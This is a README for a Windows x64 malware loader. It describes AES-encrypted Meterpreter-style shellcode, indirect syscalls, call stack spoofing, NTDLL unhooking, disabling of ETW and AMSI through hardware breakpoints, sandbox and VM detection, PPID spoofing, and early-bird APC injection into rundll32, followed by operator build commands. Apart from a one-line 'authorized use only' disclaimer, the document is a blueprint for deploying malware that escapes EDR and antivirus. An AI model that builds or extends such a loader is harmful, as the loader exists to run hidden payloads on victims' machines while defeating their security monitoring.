

# KHAØS LOADER




Multi-stage Windows x64 loader. Takes a [donut](https://github.com/TheWover/donut) shellcode, AES-256-CBC decrypts it at runtime, and injects it via early-bird APC into a `rundll32.exe` spawned under `explorer.exe`. Every sensitive NT operation goes through indirect syscalls with call stack spoofing.

---

## Architecture

```
malware.exe
    └── donut → shellcode.bin
        └── encrypt_payload.exe → shellcode_aes.bin + key_iv.txt
            └── build.ps1
                ├── gen_evs.py → evs_strings.h   (per-build XOR key)
                ├── embeds key+IV+shellcode into loader_v3.c
                └── gcc → output/Loader.exe
```

---

## Modules

| Module              | Technique                                                                                           |
| ------------------- | --------------------------------------------------------------------------------------------------- |
| `syscalls.c`        | SEC_IMAGE fresh NTDLL, ROR13 hash resolution, Hell's Gate + Halo's Gate SSN, 14 NT wrappers, call stack spoofing gadget init, PE header stomp |
| `dosyscall.S`       | `DoSyscall` (2-frame spoof), `DoSyscall11` (2-frame, 11 NT args), `DoSleepSpoof` (4-frame ntdll chain) |
| `spoof_sleep.c`     | `SleepViaSyscall` — NtDelayExecution via `DoSleepSpoof`, no `Sleep()` import                       |
| `injection.c`       | Early-bird APC: CREATE_SUSPENDED → NtAllocate → NtWrite → NtQueueApc → NtResume                     |
| `unhooking.c`       | SEC_IMAGE fresh NTDLL, VirtualAddress-based .text overwrite via `SysVirtualProtect`                 |
| `hwbp_bypass.c`     | HWBP via debug registers (Dr0/Dr1/Dr2) + VEH: ETW → RAX=0, AMSI → RAX=0x80070057. No .text patch  |
| `etw_bypass.c`      | Thin wrapper over `hwbp_patch_etw()`                                                               |
| `amsi_bypass.c`     | Thin wrapper over `hwbp_patch_amsi()`                                                              |
| `evs.c`             | `evs_dec()` — XOR decode, `noinline`, single code pattern                                          |
| `gen_evs.py`        | Per-build random XOR key, encodes all sensitive strings → `evs_strings.h`                          |
| `sandbox_evasion.c` | Scoring: VM reg/fs, PEB debugger, NtQueryInformationProcess, CPU/RAM/disk, uptime, idle, proc count |
| `ppid_spoofing.c`   | `UpdateProcThreadAttribute` PROC_THREAD_ATTRIBUTE_PARENT_PROCESS                                    |
| `crypto.c`          | AES-256-CBC via BCrypt                                                                              |

---

## Evasion Techniques

### Indirect Syscalls — Hell's Gate + Halo's Gate

SSNs extracted from a fresh SEC_IMAGE-mapped `ntdll.dll` (never touches the hooked in-memory copy for resolution):

- **Hell's Gate**: stub starts with `4C 8B D1 B8` → read SSN directly from bytes 4–7
- **Halo's Gate**: stub hooked (JMP trampoline) → walk EAT neighbors ±32, find clean stub, compute SSN by delta

All 14 NT functions resolved by ROR13 hash — no plaintext names in `.rdata`.

### Call Stack Spoofing

`DoSyscall` / `DoSyscall11` use a 2-frame spoof chain:

```
syscall;ret gadget → ntdll ret gadget → KernelBase ret gadget → real caller
```

`DoSleepSpoof` uses a 4-frame chain specifically for sleeps (SilentMoonwalk-style):

```
syscall;ret gadget → ntdll1 → ntdll2 → ntdll3 → KernelBase → real caller
```

Stack perfectly balanced in all cases — `subq` opens N slots, N+1 `ret`s consume them including the original return address.

### HWBP-Based ETW/AMSI Bypass

No `.text` patching. Hardware breakpoints set on:

| Register | Target | VEH response |
|----------|--------|--------------|
| Dr0 | `EtwEventWrite` | `RAX = 0` (S_OK), skip function |
| Dr1 | `AmsiScanBuffer` | `RAX = 0x80070057` (AMSI_RESULT_CLEAN), skip |
| Dr2 | `AmsiScanString` | `RAX = 0x80070057`, skip |

Bypasses EDR integrity scanners that detect in-memory patches. No difference in loaded image bytes.

### EVS XOR String Obfuscation

`gen_evs.py` runs at build time: picks a random key via `secrets.randbelow(256)`, encodes all sensitive strings (DLL names, NT function names, path separators) into `evs_strings.h`. Key changes every build. `evs_dec()` is `__attribute__((noinline))` — single code pattern, no inline copies.

Strings covered: `ntdll.dll`, `amsi.dll`, `KernelBase.dll`, `\ntdll.dll`, `EtwEventWrite`, `AmsiScanBuffer`, `AmsiScanString`, and all 5 NT function names used by the injection module.

### NTDLL Unhooking

Fresh copy loaded via `CreateFileMappingA(SEC_IMAGE)` + `MapViewOfFile` — proper PE image layout, VAs match section headers. `.text` section copied over the hooked in-memory ntdll using `SysVirtualProtect` (indirect syscall, avoids hooked `VirtualProtect`). View unmapped after use.

### PE Header Stomping

After SSN resolution, the fresh ntdll mapping's first 0x1000 bytes are zeroed (`PAGE_WRITECOPY` + `SecureZeroMemory`) before unmap. `StompSelfPEHeader()` can zero the loader's own PE header in memory to defeat in-memory PE scanner heuristics.

### Syscall-Based Sleep

`Sleep()` replaced with `SleepViaSyscall()` → `NtDelayExecution` via `DoSleepSpoof`. No `Sleep` import, 4-frame spoofed call stack during wait.

---

## Workflow

### Phase 1 — Payload preparation (operator side)

```
[1] Compile payload PE
      x86_64-w64-mingw32-gcc payload.c -o payload.exe

[2] Convert PE → PIC shellcode
      donut.exe -i payload.exe -o payload/meterpreter.bin

[3] Encrypt shellcode (AES-256-CBC)
      encrypt_payload.exe payload/meterpreter.bin
      ├── Random 256-bit key + 128-bit IV
      ├── shellcode_aes.bin  (ciphertext)
      └── key_iv.txt         (key + IV, hex)

[4] Build
      build.ps1
      ├── gen_evs.py → evs_strings.h   (new random XOR key each build)
      ├── Embeds key+IV+shellcode into loader_v3.c
      └── gcc -O2 -s -mwindows → output/Loader.exe
```

### Phase 2 — Runtime execution on target

```
[1] SetupEnvironment
      ├── FreeConsole()
      └── Benign API calls (dilute import ratio)

[2] AntiSandboxDelay (120s)
      ├── QueryPerformanceCounter before Sleep(120 000ms)
      ├── QueryPerformanceCounter after
      └── Elapsed < 90% → time acceleration → exit

[3] RunEvasionChecks  (composite score, threshold = 50)
      ├── CheckVirtualMachine()  — VMware/VBox/Hyper-V reg + driver files
      ├── CheckDebugger()        — PEB.BeingDebugged + NtQueryInformationProcess
      ├── CheckHardware()        — CPU < 2 / RAM < 4 GB / disk < 80 GB
      ├── CheckUptime()          — uptime < 10 min
      ├── CheckUserActivity()    — GetLastInputInfo
      ├── CheckProcessCount()    — < 50 processes
      └── score ≥ 50 → exit silently

[4] InitializeSyscallsModule
      ├── SEC_IMAGE map fresh ntdll.dll
      ├── Resolve 14 NT functions by ROR13 hash (Hell's Gate + Halo's Gate)
      ├── Find syscall;ret gadget + ret gadgets for call stack spoof frames
      ├── Stomp fresh ntdll PE header (PAGE_WRITECOPY + SecureZeroMemory)
      └── Unmap fresh ntdll

[5] UnhookEDR
      ├── SEC_IMAGE map fresh ntdll.dll
      ├── SysVirtualProtect RWX on hooked .text
      ├── memcpy clean .text over hooked in-memory copy
      └── Restore original protection + FlushInstructionCache

[6] BypassTelemetry
      ├── ETW  — HWBP on EtwEventWrite  (Dr0) + VEH → RAX=0
      └── AMSI — HWBP on AmsiScanBuffer (Dr1) + AmsiScanString (Dr2) → RAX=0x80070057

[7] DecryptAndInject
      ├── BCryptDecrypt(AES-256-CBC, embedded key+IV) → plaintext shellcode
      └── APC injection with PPID spoofing
            ├── OpenProcess(explorer.exe) → attribute list
            ├── CreateProcess(rundll32.exe, CREATE_SUSPENDED, parent=explorer)
            ├── NtAllocateVirtualMemory   → RWX region in target
            ├── NtWriteVirtualMemory      → shellcode
            ├── NtQueueApcThread          → APC on suspended thread
            ├── NtResumeThread            → execute
            └── SleepViaSyscall(2000)     → NtDelayExecution, 4-frame spoofed
```

---

## Build

**Requirements:** MinGW-w64 (x86_64-w64-mingw32), PowerShell 7+, Python 3, `donut.exe`

**Step 1 — Generate shellcode**

```sh
x86_64-w64-mingw32-gcc payload.c -o payload.exe -lws2_32 -mwindows
donut.exe -i payload.exe -o payload/meterpreter.bin
```

**Step 2 — Build**

```powershell
# Production (stripped, -O2, no console)
.\build.ps1

# Debug (verbose, console)
.\build.ps1 -Mode debug

# Custom output
.\build.ps1 -Mode prod -OutputName agent.exe
```

Output: `output/Loader.exe`

**Rebuild `encrypt_payload.exe`** (only if `crypto.c` changed):

```sh
gcc tools/encrypt_payload.c modules/crypto.c -o tools/encrypt_payload.exe -lAdvapi32
```

---

## Dependencies

- MinGW-w64, Windows SDK headers
- `advapi32`, `ntdll`, `user32`
- Python 3 (build-time: `gen_evs.py`)
- [donut v1](https://github.com/TheWover/donut) — PE → shellcode
- No external C libraries

---

> **For authorized use only.**
